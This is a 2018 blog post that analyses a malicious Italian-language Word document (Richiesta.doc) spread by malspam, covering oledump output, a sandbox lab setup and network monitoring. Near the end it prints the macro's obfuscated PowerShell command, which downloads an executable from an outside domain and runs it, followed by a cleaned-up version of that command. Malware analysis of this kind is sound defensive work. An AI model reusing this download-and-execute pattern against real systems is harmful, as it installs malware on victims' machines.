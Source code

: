 ```yaml
---
layout: post
title: "Analysis of a malicious Word document"
description: "Analysis of a malicious Word document"
date: 2018-02-05
tags: malware
show_social: true
comments: true
---
```


Analysis of a malicious Word document used to deliver malware via a malspam campaign.

<!--more-->

The sample I'm going to analyze is a Microsoft Word document distributed via malspam.

As we will see it acts as a _downloader_ that once executed reaches out to the Internet and downloads its second stage. Unfortunately at the time of this analysis the contacted domain was already dead. Nevertheless I found interesting to complete this analysis.

The sample is named `Richiesta.doc` and its SHA256 hash is `586b7dbe2a700e50a9dda9a9e12bd985e54dc5b1b7a77a61450d638358133d3f`.

It is reported as malicious on VirusTotal (and other online sandboxes), and it's worth noting that there are many different malicious samples of `Richiesta.doc` each one with a different hash.

First step is playing with the sample on my REMnux lab virtual machine.

Examining the file with the `file` utility confirms it is a Microsoft Word document:

```
remnux@remnux:~/ex$ file Richiesta.doc
Richiesta.doc: Composite Document File V2 Document, Little Endian, Os: Windows,
Version 6.1, Code page: 1251, Template: Normal.dotm, Last Saved By: admin,
Revision Number: 2, Name of Creating Application: Microsoft Office Word,
Create Time/Date: Mon Jan 29 21:20:00 2018, Last Saved Time/Date: Mon Jan 29 21:20:00 2018,
Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
```

Let's further examine it with the [Didier Stevens](https://blog.didierstevens.com/) `oledump` tool:

```
remnux@remnux:~/ex$ oledump.py Richiesta.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7427 '1Table'
  5:     60355 'Data'
  6:       496 'Macros/PROJECT'
  7:       122 'Macros/PROJECTwm'
  8: M    8163 'Macros/VBA/ThisDocument'
  9: M   14893 'Macros/VBA/Wct7kKdi5'
 10:      7570 'Macros/VBA/_VBA_PROJECT'
 11:      1786 'Macros/VBA/__SRP_0'
 12:       198 'Macros/VBA/__SRP_1'
 13:       532 'Macros/VBA/__SRP_2'
 14:       156 'Macros/VBA/__SRP_3'
 15:       671 'Macros/VBA/dir'
 16: M    8038 'Macros/VBA/tVQSqmk'
 17: M   19011 'Macros/VBA/yBcakFpM'
 18:      4096 'WordDocument'
```

As expected, those three streams marked with an `M` mean that this Word document contains Macros. I can read the Macros after decompressing the VBA stream with `oledump.py -s 8 -v Richiesta.doc` (where `8` is the number of the stream). Unfortunately the code looks heavily obfuscated.

Using the `olevba` tool (from the [oletools](http://decalage.info/python/oletools) package) doesn't help either.

```
remnux@remnux:~/ex$ olevba Richiesta.doc
```

A couple of interesting keywords contained in the obfuscated code are:
* a function named `Document_Open`: that means that the Macro is run when the Word document is opened;
* a call to `VBA.Shell` : probably the Macro runs an executable file or a system command.

`olevba` does have an option to try deobfuscate the code, but it does not help much in this case.

Anyway I won't care about deobfuscation. Instead I will try to run the malware and observe what it does.

To perform basic dynamic analysis, I'm going to use two virtual machines: one is a Windows 8.1 VM, equipped with malware analysis tools, where I will detonate the malware; the other is the REMnux Lab VM which I will use to direct the network traffic to.

To monitor network activity:

* Set up [ApateDNS](https://www.fireeye.com/services/freeware/apatedns.html) on the Windows VM to intercept any DNS requests and have it reply with the IP address of the REMnux VM.
* Set up [INETsim](http://www.inetsim.org/) on the REMnux VM to simulate Internet services and Wireshark to sniff network traffic.
* I'm going to monitor network traffic with Wireshark on the Windows VM as well.

To monitor system activity on the Windows VM:

* Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) (or [Process Hacker](http://processhacker.sourceforge.net)).
* Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
* Run [Regshot](https://sourceforge.net/projects/regshot).

I'm letting those programs run and exclude normal activity from Process Monitor. Then, right before installing the malware, I'm taking the first shot with Regshot.

Let's now open the Word document!

Once opened, it shows a common social engineering trick to have the victim enable Macros; it says (in Italian): _This document is for an older version of Word. To visualize its content please click 'Enable' in the yellow bar above..._.

![word](/media/20180205/word.png)

(Btw, the yellow bar with the Enable button is not visible in my screenshot because I took the screenshot after having enabled the Macros.)

As Macros are activated, the malicious code starts performing its actions. It communicates with a remote server to download a file (its second stage) which is saved under a temporary directory and then executed.

The domain contacted is `wijdqwbntuqwebqweqwizxc[.]com` as apparent from the ApateDNS log:

![apatedns](/media/20180205/apatedns.png)

Wireshark shows us the full URL where the second stage is downloaded from:

```
hxxp://wijdqwbntuqwebqweqwizxc[.]com/stata/index.php?rnd=59978
```

![wireshark](/media/20180205/wireshark.png)

It's worth noting that the `User-Agent` string is `15.0`: we'll see shortly that this corresponds to the version of Microsoft Word.

Taking the second shot with RegShot and comparing the results we can easily see that a new file has been created:

```
C:\Users\REM\AppData\Local\Temp\19982.exe
```

In this case the malware could not reach out to the Internet but only to the REMnux VM where INETsim was running; indeed the downloaded file contains the fake HTTP response sent by INETsim.

We can further examine what happened on the system using Process Monitor: we see that the Macros executed a system command `cmd` which in turn called the `powershell` executable to connect to the remote server and download the second stage. In the screenshot below events filtered with Operation equal to any of `Process Start`, `WriteFile` and `TCP Connect` are shown.

![wireshark](/media/20180205/wireshark.png)

The full command line (highlighted in the screenshot) is:

```
cmd /c set _a1=pow&& set _a2=ersh&& set _a3=ell&& call %_a1%%_a2%%_a3% $ULjzHtTrs = 'iRJKbn';$jmVo2G = new-object System.Net.WebClient;$DSTFdKxX1 = 'oth1DC';$LyXjIuhD = (New-Object -ComObject word.application).version;$SQYyU = 'xZeKFX';$jmVo2G.headers['user-agent'] = $LyXjIuhD;$NZVXzNr0 = 'ynMSJ';$LyXjIuhD.close();$mNRwMHq = 'b85KGdV67';$LyXjIuhD.quit;$qdsyJ = 'hXUwA7Vo';$JNcVeBxf = $env:temp + '\19982.exe';$KVRjd8Y = 'G9WjeFT';foreach($mBbRidWu in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')){try{$uV3RLeIz = 'pMP6bKdGA';$jmVo2G.DownloadFile($mBbRidWu.ToString(), $JNcVeBxf);$HfVyAwt = 'D1HxGK8T';Start-Process $JNcVeBxf;$Cv31ashE = 'RLpG0dl2';break;}catch{$LlX4G = 'qIpqLRP3';}$qSK6tDU = 'fMY4dFcJ';}
```

This is somewhat confusing to read... but not so much after a bit of clean up.

Following is a _manually-decoded_ version of the command line just to make it easier to read. I wrote it on different line and replaced the original names of important variables with more meaningful names.

The first line is a call to `cmd /c` to execute the command that follows. The second line sets three environment variables, which are then concatenated on line 5 into the string `powershell` which is the argument of the command `call`.

Following down the lines we see how a `WebClient` object is created (I renamed it to `$connection`); how the Microsoft Word version is read and assigned to the `user-agent` property of the `$connection` object; how the path where the second stage malware is to be saved to is set. The `foreach` loop is where the actual download happens. Note that the loop is executed only one time because of the `break` instruction and regardless of how many `$urls` are obtained from the `Split` operation. Indeed the `Split` and all those other random strings assignments spread over are just garbage to make the code more difficult to read and reverse.

```
cmd /c
set _a1=pow&& set _a2=ersh&& set _a3=ell
&&
call %_a1%%_a2%%_a3%
$ULjzHtTrs = 'iRJKbn';
$connection = new-object System.Net.WebClient;
$DSTFdKxX1 = 'oth1DC';
$word = (New-Object -ComObject word.application).version;
$SQYyU = 'xZeKFX';
$connection.headers['user-agent'] = $word;
$NZVXzNr0 = 'ynMSJ';
$word.close();
$mNRwMHq = 'b85KGdV67';
$word.quit;
$qdsyJ = 'hXUwA7Vo';
$malware = C:\Users\REM\AppData\Local\Temp\19982.exe';
$KVRjd8Y = 'G9WjeFT';
foreach($url in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')) {
    try{
        $uV3RLeIz = 'pMP6bKdGA';
        $connection.DownloadFile($url.ToString(), $malware);
        $HfVyAwt = 'D1HxGK8T';
        Start-Process $malware;
        $Cv31ashE = 'RLpG0dl2';
        break;
    }
    catch{
        $LlX4G = 'qIpqLRP3';
    }
    $qSK6tDU = 'fMY4dFcJ';
}
```

I tried to download the second stage using [Malzilla](http://malzilla.sourceforge.net/) but unfortunately without success: at this time the domain is dead or already taken down.

![virustracker](/media/20180205/virustracker.png)

That's all.
